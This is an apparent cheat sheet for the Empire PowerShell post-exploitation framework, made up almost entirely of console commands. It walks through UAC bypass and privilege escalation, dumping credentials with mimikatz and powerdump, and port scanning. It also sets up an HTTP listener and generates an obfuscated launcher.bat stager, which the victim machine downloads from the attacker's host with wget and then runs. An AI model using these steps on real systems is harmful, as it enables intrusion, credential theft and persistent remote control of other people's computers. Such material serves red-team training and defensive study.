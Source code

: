 # BypassUac

## BypassUac module
[Source](https://alpinesecurity.com/blog/empire-a-powershell-post-exploitation-tool)

`info` 

If you type info, it will show you information about the victim machine. 
The most important information would be the _high_integrity_ flag. You can see that it is set to 0, which means we do not have SYSTEM privileges.
To increase the _high_integrity_ flag, we would need to elevate privileges.

To do this, type usemodule _powershell/privesc/bypassuac_env_ or _privesc/bypassuac_. Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

`(Empire: agents) > usemodule powershell/privesc/bypassuac_env`

`(Empire: powershell/privesc/bypassuac_env) > set Listener http`

`(Empire: powershell/privesc/bypassuac_env) > set Agent Win10SEC`

`(Empire: powershell/privesc/bypassuac_env) > back`

`(Empire) > agents`

`(Empire: agents) > interact K1NVE34D`

`(Empire: K1NVE34D) > info`

## BypassUac with pop up UAC prompt

`(Empire: Agent007) > usemodule privesc/ask`

`set Listener http`

`run`

## Powerup Privileges Escalation

`(Empire: Agent007) > usemodule privesc/powerup/allchecks`

# Dump creds

## Mimikatz

In addition to modules, the empire has tools. For example, mimikatz.

`(Empire: Agent007) > mimikatz`

To run them, you need to go to command prompt of the required agent

## PowerUp

`(Empire: RMVFSLPW) > usemodule credentials/powerdump*`

`(Empire: powershell/credentials/powerdump) > run`

# Port scanners

`(Empire: Agent007) > searchmodule portscan`

`(Empire: Agent007) > usemodule situational_awareness/network/portscan`

`(Empire: situational_awareness/network/portscan) > set Hosts 10.10.10.10`

`(Empire: situational_awareness/network/portscan) > run`

# Wrap up

`main`

`agents`

`kill all`

`listeners`

`kill http`

# Overview

## Usefull commands

`sc` - takes a screenshot, default is PNG. Giving a ratio means using JPEG

`rename NewAgent` - rename agent

`searchmodule powerup` - search modules

`shell ipconfig` - execute command

## Type of modules

`code_execution` - these modules let you run code, including Metasploit payloads, on the target box

`collection` - these modules let you pillage information from the target machine

`credentials` - these modules let you plunder usernames, hashes, and passwords from the target

`exploitation` - these modules let you exploit additional targets

`lateral_movement` - these modules let you pivot to other target machines

`management` - these modules are associated with system administration functions on the target

`persistence` - these modules will make your agent survive across user logoff or reboot.

`privesc` these modules provide privilege escalation exploits.

`recon` these are the reconnaissance modules.

`situational_awareness` these modules pull information from the target environment, including scanners and related tools.

`trollsploit` these modules let you troll the user sitting at the victim machine’s console, including playing audio and popping up dialog boxes.


## Configure a listeners

`listeners`

`(Empire: listeners) > uselistener <Tab><Tab>`

`(Empire: listeners) > uselistener http`

`(Empire: listeners/http) > info`

Note that we have options here:

`KillDate` - after which time the listener will stop listening

`StagingKey` - a pseudo-random StagingKey for encrypting communications between agent and listener

`WorkingHours` - to limit the time when agents will actively call back to the listener

`DefaultDelay` - (default 5) agents are asynchronous and the DefaultDelay specifies how often the agent will check in

`(Empire: listeners/http) > set DefaultDelay 1`

`(Empire: listeners/http) > set Port 8080`

`(Empire: listeners/http) > set Host http://192.168.1.200:8080`

`(Empire: listeners/http) > execute`

`(Empire: listeners/http) > listeners`

## Deploy an agent

`(Empire) > usestager <Tab><Tab>`

`(Empire) > usestager windows/launcher_bat`

`(Empire: stager/windows/launcher_bat) > info`

`(Empire: stager/windows/launcher_bat) > set Listener http`

`(Empire: stager/windows/launcher_bat) > set Obfuscate True`

`(Empire: stager/windows/launcher_bat) > generate`

The agent can be accessed by the web server

`cd /tmp`

`python -m http.server`

On the target machine, execute the following command to download the agent

`wget http://192.168.1.200:8000/launcher.bat -OutFile launcher.bat`

`./launcher.bat`

## Active agent

`(Empire) > agents` - agents menu

`(Empire: agents) > ?`

`(Empire: agents) > interact C9SEXLWT`

## Modules

`(Empire: Agent007) > usemodule <Tab><Tab>` - list of available modules

`(Empire: Agent007) > usemodule situational_awareness/host/winenum`

`(Empire: powershell/situational_awareness/host/winenum) > execute`